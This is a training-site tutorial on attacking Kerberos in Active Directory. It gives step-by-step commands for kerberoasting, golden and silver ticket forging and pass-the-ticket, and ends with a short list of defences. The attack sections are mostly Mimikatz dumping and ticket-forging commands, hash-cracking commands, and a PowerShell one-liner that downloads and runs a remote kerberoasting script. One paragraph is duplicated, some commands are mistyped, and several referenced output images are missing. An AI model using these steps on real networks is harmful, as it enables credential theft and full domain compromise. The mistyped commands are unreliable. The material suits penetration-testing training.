

:orphan:
(kerberos-attack-and-defense-techniques)=

# Kerberos Attack and Defense Techniques

Kerberos is a network authentication protocol based on client/server architecture. This protocol does not require users to provide their passwords; instead, it relies on tickets and keys for authentication. Kerberos is a commonly employed authentication protocol in Active Directory. Because of its popularity, it has drawn the attention of hackers worldwide attempting to exploit its security weaknesses and crack the protocol. This article goes over some of the most common Kerberos attacks, how to carry them out, and how to defend against them.

## Kerberoasting:

In a kerberoasting attack, the attacker attempts to target Active Directory service accounts using their SPN (Service Principal Names). A service primary name is a one-of-a-kind identifier that is connected with a service account. SPNs are used to link a service's logon account to the service name. The attacker tries to extract credentials related to these accounts in hopes of compromising further accounts with higher privileges. The Kerberoasting technique is used to attack SPNs connected with domain user accounts. It's because, unlike computer/host-based service accounts, the passwords for these accounts are chosen by the users. Sometimes users choose a password that is weak or common and thus the credentials related to these service accounts have a higher chance of being cracked easily.

Kerberoasting is effective because an attacker does not require domain administrator credentials to pull off this attack and can extract service account credential hashes without sending packets to the target service. Therefore this attack technique doesn't generate any triggers which makes it difficult to detect it. Attackers use this technique to compromise service accounts and add an arbitrary user to the group of administrators for that compromised service. As valid domain users, the attackers can use this technique to request a Kerberos service ticket for any service and then capture these service tickets from the memory.

The attacker uses different password cracking tools such as Hashcat, John the Ripper, and others to try to crack the service credential hash offline. If an attacker obtains the plaintext password for a service account, he can use it to log in to any resources that the service account has access to, allowing them to compromise data, escalate privileges, or perform lateral movement.

## Steps for Performing Kerberoast Attack:

The following main steps are involved in a Kerberoasting attack:

### 1. Enumerate service accounts in Active Directory:

This step involves discovering service accounts in the active directory. You can leverage different commands or scripts at this stage to enumerate services running on the domain controller. The tools that can be used at this stage are as follows:

<u>Set-SPN:</u>
Set-SPN is a Windows command-line tool that is built into Windows Server operating systems in versions 2008 and up. This tool is used to retrieve the mapping between user accounts and services. It is used to view existing SPNs, add new ones or, delete them. In order to view the all the existing SPNs on a domain controller run the following command from PowerShell prompt on the target machine:

`set-spn -q */*`

Use the output of this command to discover SPNs associated with user accounts.

<u>GetUserSPN.ps1:</u>
This PowerShell script is part of the kerberoast toolkit published by Tim Medin on [github](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)
This script can be leveraged to discover only those SPNs that are associated with a user account. In order to discover user service accounts run this script command from a PowerShell prompt as follows:

`.\GetUserSPN.ps1`

<u>Find-PSServiceAccount.ps1:</u>
Another PowerShell script that can be leveraged to discover a user service account in a domain is Find-PSServiceAccount.ps1. This script is also a part of the PowerShell Active Directory reconnaissance toolkit found on [github](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts)
In order to discover user service accounts run this script command from a PowerShell prompt as follows:

`.\Find-PSServiceAccounts.ps1 -Domain <Specify_the_domain_name_here>`

The Domain parameter is used to specify the name of the domain. If no domain name is specified then this script will search for the user accounts in the current domain.

### 2. Request TGS(Ticket Granting Service) Tickets:

After discovering and extracting SPN associated with a user account, the next step is to request a TGS ticket from the domain controller using the SPN of the required account. PowerShell can be used to request an access token for the service using the specific SPN. In order to request the ticket using PowerShell, first, add the classes that are used to build security token services(STS) in your current PowerShell session using System.IdentityModel namespace. Use the Add-Type cmdlet with the AssemblyName parameter as follows:

`Add-Type -AssemblyName System.IdentityModel`

Next you can use New-Object cmdlet to instantiate objects from the System.IdentityModel.Tokens.KerberosRequestorSecurityToken class and request tickets for a specified SPN as follows:

`New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken - ArgumentList "<specify_your_SPN_here>"`

### 3. Extract the hashes:

Since the above ticket requested from the domain controller will be cached in the memory, the next step would be to dump the hashes from the memory. You can leverage Mimikatz to extract the tickets using the kerberos module as follows:

`kerberos::list /export`

After exporting the ticket, convert the format of the extracted ticket in .kirbi format to the format that can be used by the John the Ripper cracking tool. You can use John the Ripper tool pre-installed in Kali Linux. Afterwards, use the kirbi2john.py file in this tool and store its output in the file hash.txt as follows:

`/usr/share/john/kirbi2john.py <Specify_the_.kirbi_ticket_here> hash.txt`

### 4. Crack the extracted hash:

The last step is to crack the extracted hash using the John the Ripper tool to uncover the plain text password as follows:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

### Alternative Approach for performing Kerberoasting Automatically:

You can leverage the Invoke-Kerberoast PowerShell script to request service tickets for user service accounts and return extracted ticket hashes. You can use this one-liner to dump the hashes as follows:

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath \C:\Users\Public\hashes.txt -width 8000`

The output file will look like this:

This script bypasses the PowerShell script execution policy, downloads the Invoke-Kerberoast.ps1 from the specified location, uses it to extract the hashes in the Hashcat format, and stores it in the hashes.txt file.

Copy only the hashes in a separate text file called test.txt file. Now you can use the hashcat password cracking tool in Kali Linux or separately install in your system, to crack the hashes as follows:

`hashcat -m 13100 -a 0 test.txt <path_to_your_rockyou.txt_file>`

This command is used to perform a dictionary attack on the extracted hashes to discover any plain text passwords related to service accounts. The password that is cracked can be seen as follows:

## Golden Ticket Attack:

In a golden ticket attack, an attacker gains hold of the KRBTGT account. The KRBTGT account is the default local account that acts as a service account for the KDC(Key Distribution Center) service. A golden ticket enables the attacker to create a fake domain administrator account to gain access to any service in a domain. The attacker can leverage this attack to forge TGTs(Ticket Granting Tickets) and gain unsolicited access to all the resources across the network. This attack can be carried out with the help of tools such as the Mimikatz or PowerShell Empire module.

## Steps for Performing Golden Ticket Attack:

The following steps are involved in a Kerberos Golden ticket attack.

### 1. Extract domain name and domain security identifier:

In order to execute the Kerberos Golden ticket attack successfully, you need the domain name and SID(security identifier) of the domain. Open the Command prompt and use the following command to extract the required information:

`whoami /user`

### 2. Extract the NTLM hash of the KRBTGT account:

The next step is to extract the NTLM hash of the krbtgt account. In order to extract this hash, use Mimikatz's lsadump module in mimikatz. You can use the DCSync feature in this module to impersonate a domain controller and get the password hash of this account without requiring interactive logon or pulling the data from the Active Directory database. Use the following command to extract the NTLM hash of the KRBTGT account:

`lsadump::dcsync /user:krbtgt`

Another way to extract the hash of this account is to use LSA's(Local Security authority) credentials database. In order to retrieve the KRBTGT hash, first, debug the privileges:
`privilege::debug`

Then use the following command to inject into the lsass.exe process to extract the NTLM hash of this account:

`lsadump::lsa /inject /name:krbtgt`

Another way to extract the hash of this account is to use LSA's(Local Security authority) credentials database. In order to retrieve the KRBTGT hash, first, debug the privileges:
`privilege::debug`

Then use the following command to inject into the lsass.exe process to extract the NTLM hash of this account:

`lsadump::lsa /inject /name:krbtgt`

### 3. Generate the Golden ticket:

After you have successfully retrieved all the pre-requisite information for generating the golden ticket, you can use the kerberos module in the Mimikatz and the golden function. You can use the following command to generate the golden ticket for any fake user of your choice:

`kerberos::golden /user:<your_fake_username> /domain:<domain_name> /sid:<sid_of_the_domain> /krbtgt:<ntlm_hash_of_the_krbtgt_account> /ptt`

This command adds our user to the domain admin group. The ptt (Pass the Ticket) flag is used to add this forged golden ticket to the local credential cache.

## Silver Ticket Attack:

In a silver Ticker attack, an attacker uses a technique similar to Kerberoasting to steal the TGS of a service, and extract the NTLM hash of the service account. The attacker can thus use the service account credentials to create fake authentication tickets. Kerberos allows services to log in without double-checking that their token is actually valid which enables them to create silver tickets. The main difference between a golden ticket attack and a silver ticket attack is that in a golden ticket attack, the attacker has unfettered access to all the resources in the network whereas, in a silver ticket attack, the attacker compromises a service account to forge its TGS tickets.

## Steps for Performing Silver Ticket Attack:

The following steps are involved in a Kerberos Silver ticket attack.

### 1. Extract domain name and domain security identifier:

In order to execute the Kerberos Silver ticket attack successfully, you need the domain name and SID(security identifier) of the domain. Open the Command prompt and use the following command to extract the required information:

`whoami /user`

### 2. Extract the credentials of a service account:

You can use the techniques listed in the Kerberoasting attack section to extract the NTLM password hash of a service account. Alternatively, if you can have admin rights on the target computer, then you can leverage Mimikatz to dump the password hash of service accounts that it is hosting e.g. the cifs(common internet file system) service. In order to dump the active directory password hashes from the computer, first, debug privileges using:

`privilege::debug`

Then use the sekurlsa module in Mimikatz to dump the logon password hashes. In order to extract the password hash of any service account, use the following command:

`sekurlsa::logonpasswords`

The hash of the cifs service account can be seen as follows:

### 3. Create the ticket:

In order to create a silver ticket you can leverage the kerberos::golden function in Mimikatz. You can use the following command to issue a silver ticket for the required service account:

`kerberos::golden /user:<any_username_of_your_choice> /domain:<the_name_of_domain> /sid:<sid_of_the_domain> /rc4:<ntlm_hash_of_service_account> /target:<FQDN_of_the_server> /service:<name_of_the_comprmised_service> /ptt`

The target flag indicates the fully qualified domain name of the target server that is hosting the service. The service flag indicates the SPN class or type of the service such as cifs, http, or mssql, etc. The rc4 flag indicates the NTLM hash of the computer or user service account. The ptt flag immediately caches the ticket in the memory.

## Pass the ticket Attack:

Pass the ticket attacks are carried out using the TGTs and service tickets belonging to authenticated principals and re-using them to authenticate to further systems in the network. This attack doesn't require the attacker to extract passwords to carry it out successfully. Instead, the attacker can use different techniques to get hold of these tickets such as extracting valid tickets from the LSASS.exe process in the memory. The attacker can then use these captured tickets to move laterally within the network in an attempt to compromise more devices or escalate his privileges.

## Steps for Performing Pass the ticket Attack:

The following steps are involved in a Pass the ticket attack.

### 1. Steal a ticket:

You can leverage different tools like Mimikatz to extract the Kerberos tickets from the LSASS.exe process in the memory. The sekurlsa module can be used to extract and export the tickets stored in the memory. In order to steal a ticket using sekurlsa, first debug privileges using:

`privilege::debug`

Then export the tickets from the memory using the following command:

`sekurlsa::tickets /export`

Alternatively, you can use the kerberos module to extract all the user tickets. This module doesn't require debug privileges for extracting tickets. In order to extract and export the tickets using this module, use the following command:

`kerberos::list /export`

The output of both of these commands will save the tickets inside the mimikatz executable directory on the computer. You can extract this ticket file and re-use it on another system.

### 2. Pass the extracted ticket:

Now that you have extracted the ticket file, you can use Mimikatz to pass the stolen ticket into your session on another computer in the network. This will enable you to assume the identity of that user and use their privileges to access the resources available to the user. You can use the Kerberos module in Mimikatz to re-use the stolen ticket as follows:

`kereberos::ptt <path_to_the_stolen_TGT_kirbi_file>`

The extracted ticket is renamed to test_user.kirbi for the sake of convenience:

You can verify that the file was successfully injected into the memory by using the kerberos::list function as follows:

`kerberos::list`

## Defensive Techniques to prevent these attacks:

This section discusses some defensive measures that can be taken to prevent these attacks in your network environment:

- Service accounts should have sufficiently long and complex passwords that must be changed on a regular basis.

- Use AES symmetric encryption instead of RC4 for encrypting tickets.

- Service accounts must have restricted privileges and these accounts should be properly monitored for suspicious activity.

- Disable the debug rights for administrators on all workstations and servers.

- Prevent credential dumping by enabling LSA protection.

- Avoid using administrator accounts with the same login information on multiple machines. Instead, choose unique login names and their passwords should be complex that are changed on a regular basis.

- Limit the groups and users with domain admin and local admin rights.

- Configure the maximum lifetime of the TGS ticket to be 10 hours.

- Accounts that have privileged access rights should be properly managed and monitored to prevent suspicious activity.

- Change the password of the KRBTGT account regularly.

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::
